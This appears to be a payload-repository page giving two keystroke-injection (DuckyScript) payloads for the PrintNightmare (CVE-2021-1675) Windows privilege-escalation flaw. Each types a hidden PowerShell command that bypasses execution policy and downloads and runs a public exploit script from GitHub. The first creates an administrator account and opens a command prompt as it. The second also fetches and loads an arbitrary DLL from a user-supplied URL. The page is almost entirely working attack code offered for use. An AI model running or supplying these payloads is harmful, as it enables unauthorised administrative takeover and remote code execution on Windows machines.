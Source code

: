 **CVE-2021-1675**

Reference https://github.com/calebstewart/CVE-2021-1675
**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create an administrative user and spawn a command prompt as the new administrative user.**
```REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare"
ENTER
DLEAY 1000
GUI r
DELAY 150
STRING cmd
DELAY 150
ENTER
DELAY 150
STRING runas /user:adm1n cmd.exe
ENTER
DELAY 150
STRING P@ssw0rd
DELAY 150
ENTER
```

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor**
Replace the `ESCAPED URL TO DLL HERE` with the URL to your desired DLL payload
```
REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('ESCAPED URL TO DLL HERE',\"$env:temp\p4yl0ad.dll\"); IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare -DLL \"$env:temp\p4yl0ad.dll\""
ENTER
```